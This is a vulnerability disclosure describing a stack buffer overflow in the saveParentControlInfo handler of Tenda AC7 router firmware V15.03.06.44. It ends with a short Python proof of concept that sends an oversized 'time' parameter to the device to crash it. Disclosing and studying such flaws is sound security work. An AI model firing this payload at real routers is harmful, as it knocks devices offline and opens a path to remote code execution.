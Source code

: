## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240318163801267](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163801267.png)

it reads in a user-provided parameter `time`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240318163658287](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163658287.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240318163824504](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163824504.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240318163718100](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163718100.png)
